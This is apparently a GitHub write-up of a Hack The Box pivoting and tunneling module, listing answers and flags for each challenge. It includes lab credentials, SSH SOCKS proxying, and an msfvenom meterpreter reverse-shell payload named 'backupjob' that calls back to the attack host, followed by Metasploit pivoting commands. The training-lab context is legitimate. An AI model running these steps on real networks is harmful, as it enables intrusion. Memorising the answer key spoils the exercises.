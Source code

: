 # HTB-Pivoting_Tunneling_and_Port_Forwarding
## Table of Contents
1. [Choosing The Dig Site & Starting Our Tunnels](#choosing-the-dig-site--starting-our-tunnels)
    1. [Dynamic Port Forwarding with SSH and SOCKS Tunneling](#dynamic-port-forwarding-with-ssh-and-socks-tunneling)
    2. [Remote/Reverse Port Forwarding with SSH](#remotereverse-port-forwarding-with-ssh)
    3. [Meterpreter Tunneling & Port Forwarding](#meterpreter-tunneling--port-forwarding)
2. [Playing Pong with Socat](#playing-pong-with-socat)
    1. [Socat Redirection with a Reverse Shell](#socat-redirection-with-a-reverse-shell)
    2. [Socat Redirection with a Bind Shell](#socat-redirection-with-a-bind-shell)

## Introduction
### Challenges
1. Reference the Using ifconfig output in the section reading. Which NIC is assigned a public IP address?

    The answer is `eth0`.

2. Reference the Routing Table on Pwnbox output shown in the section reading. If a packet is destined for a host with the IP address of 10.129.10.25, out of which NIC will the packet be forwarded?

    The answer is `tun0`.

3. Reference the Routing Table on Pwnbox output shown in the section reading. If a packet is destined for www.hackthebox.com what is the IP address of the gateway it will be sent to?

    The answer is `178.62.64.1`. It is a default gateaway.

## Choosing The Dig Site & Starting Our Tunnels
### Dynamic Port Forwarding with SSH and SOCKS Tunneling
#### Challenges
1. You have successfully captured credentials to an external facing Web Server. Connect to the target and list the network interfaces. How many network interfaces does the target web server have? (Including the loopback interface)

    First we can ssh by using the credential provided. Then in there, we can type `ifconfig`. The answer is `3`.

2. Apply the concepts taught in this section to pivot to the internal network and use RDP (credentials: victor:pass@123) to take control of the Windows target on 172.16.5.19. Submit the contents of Flag.txt located on the Desktop.

    To solve this, we can use dynamic port forwarding with ssh.

    ```bash
    ssh -D 9050 ubuntu@10.129.175.61
    ```
    Then we can use xfreerdp with proxychains.
    
    ```bash
    proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
    ```
    The answer is `N1c3Piv0t`.

### Remote/Reverse Port Forwarding with SSH
#### Challenges
1. Which IP address assigned to the Ubuntu server Pivot host allows communication with the Windows server target? (Format: x.x.x.x)

    After we ssh with the credential, we can type `ifconfig` and look `ens224` inet result. The answer is `172.16.5.129`.

2. What IP address is used on the attack host to ensure the handler is listening on all IP addresses assigned to the host? (Format: x.x.x.x)

    The answer is `0.0.0.0`. That ip will listen connection from anywhere.

### Meterpreter Tunneling & Port Forwarding
#### Challenges
1. What two IP addresses can be discovered when attempting a ping sweep from the Ubuntu pivot host? (Format: x.x.x.x,x.x.x.x)

    To solve this, we can use `msfvenom` and `msfconsole`. First, we create payload for ubuntu pivot host. It is a reverse shell. So when its executed, we will get a shell session.

    ```bash
    msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.131 -f elf -o backupjob LPORT=8080
    ```
    Then we can use scp to transfer it into out pivot host.

    ```bash
    scp backupjob ubuntu@10.129.175.61:/home/ubuntu/
    ```
    Still in the out attack host, we set listener for our reverse shell by using metasploit.

    ```bash
    [msf](Jobs:0 Agents:0) >> use exploit/multi/handler
    [*] Using configured payload generic/shell_reverse_tcp
    [msf](Jobs:0 Agents:0) exploit(multi/handler) >> set lhost 0.0.0.0
    lhost => 0.0.0.0
    [msf](Jobs:0 Agents:0) exploit(multi/handler) >> set lport 8080
    lport => 8080
    [msf](Jobs:0 Agents:0) exploit(multi/handler) >> set payload linux/x64/meterpreter/reverse_tcp
    payload => linux/x64/meterpreter/reverse_tcp
    [msf](Jobs:0 Agents:0) exploit(multi/handler) >> run
    ```

    Then in the pivot host, we can change file permission and executed it.

    ```bash
    chmod +x backupjob
    ./backupjob
    ```
    If success out listener will catch it and create meterpreter session. In there we can do ping sweep.

    ```bash
    (Meterpreter 1)(/home/ubuntu) > run post/multi/gather/ping_sweep RHOSTS=172.16.5.0/23
    ```
    ![alt text](Assets/Starting1.png)

    Based on that, we got 2 ip. So the answer is `172.16.5.19,172.16.5.129`.

2. Which of the routes that AutoRoute adds allows 172.16.5.19 to be reachable from the attack host? (Format: x.x.x.x/x.x.x.x)

    To solve this, we can run `autoroute` module.

    ```bash
    (Meterpreter 1)(/home/ubuntu) > run autoroute -s 172.16.5.0/23
    ```

    The answer is `172.16.5.0/255.255.254.0`.

## Playing Pong with Socat
### Socat Redirection with a Reverse Shell
#### Challenges
1. SSH tunneling is required with Socat. True or False?

    It is already mentioned in the module that `Socat is a bidirectional relay tool that can create pipe sockets between 2 independent network channels without needing to use SSH tunneling`. So the answer is `False`.

### Socat Redirection with a Bind Shell
#### Challenges
1. What Meterpreter payload did we use to catch the bind shell session? (Submit the full path as the answer)

    The answer is `windows/x64/meterpreter/bind_tcp`.